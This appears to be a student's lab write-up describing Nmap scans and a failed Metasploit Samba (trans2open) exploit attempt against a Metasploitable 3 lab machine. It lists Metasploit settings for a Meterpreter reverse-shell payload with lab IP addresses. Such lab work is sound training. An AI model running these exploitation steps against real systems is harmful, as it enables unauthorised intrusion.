 

# Week 3 – Vulnerability Scanning and Exploitation (Metasploitable 3)

## Overview  
This week focused on performing *network reconnaissance* with Nmap and attempting *exploitation* with Metasploit against the Metasploitable 3 target machine. The objective was to identify open ports, detect services, enumerate vulnerabilities, and attempt to exploit Samba.

---

## Steps and Evidence  

### 🔍 1. Full Nmap Scan  
*Screenshot:* week3_scan1_nmap_full.png  
- Performed a full port scan on the target.  
- Identified open ports including *139* and *445 (SMB)*.  

---

### 🔍 2. Nmap Open Ports Scan  
*Screenshot:* week3_scan2_nmap_open_ports.png  
- Verified which ports were open and accessible.  
- Confirmed SMB-related ports.

---

### 🔍 3. Nmap Service Version Detection  
*Screenshot:* week3_scan3_nmap_service_versions.png  
- Ran -sV scan to identify service versions.  
- Found Samba service running on the target.

---

### 🔍 4. Nmap OS Detection  
*Screenshot:* week3_scan4_nmap_os_detection.png  
- Used -O option to detect the operating system.  
- Confirmed target OS type for exploitation attempts.  

---

### 🔍 5. Nmap Vulnerability Scan  
*Screenshot:* week3_scan5_nmap_vuln.png  
- Ran NSE vulnerability scripts on SMB.  
- Confirmed the service was potentially exploitable.  

---

### ⚡ 6. Starting Metasploit Framework  
*Screenshot:* week3_scan6_msfconsole.png  
- Opened msfconsole.  
- Prepared the exploitation phase.  

---

### ⚡ 7. Searching Samba Exploits in Metasploit  
*Screenshot:* week3_scan7_msf_search_samba.png  
- Used search samba command.  
- Listed multiple Samba exploits available in Metasploit.  

---

### ⚡ 8. Setting Target Host (RHOSTS)  
*Screenshot:* week3_scan9_msf_set_rhosts.png  
- Set the target machine IP:  
  ```bash
  set RHOSTS 172.28.128.3


⸻

⚡ 9. Setting Payload

Screenshot: week3_scan10_msf_set_payload.png
	•	Set the payload to establish a reverse shell:

set PAYLOAD linux/x86/meterpreter/reverse_tcp



⸻

⚡ 10. Setting Local Host (LHOST)

Screenshot: week3_scan11_msf_set_lhost.png
	•	Configured the attacker’s local IP for callback:

set LHOST 172.28.128.2



⸻

⚡ 11. Exploit Attempt

Screenshot: use_exploitlinuxsambatrans2open.png
	•	Used a Samba exploit module to attempt remote code execution.
	•	Exploit was launched, but no session was created (target did not open a shell).
	•	This shows that exploitation was attempted but unsuccessful in this configuration.

⸻

✅ Summary
	•	Successfully performed Nmap reconnaissance (ports, services, OS, vulnerabilities).
	•	Attempted Metasploit exploitation on Samba service.
	•	Exploit did not yield a session, but the lab demonstrated the process of moving from scanning → exploitation attempts.

---
 

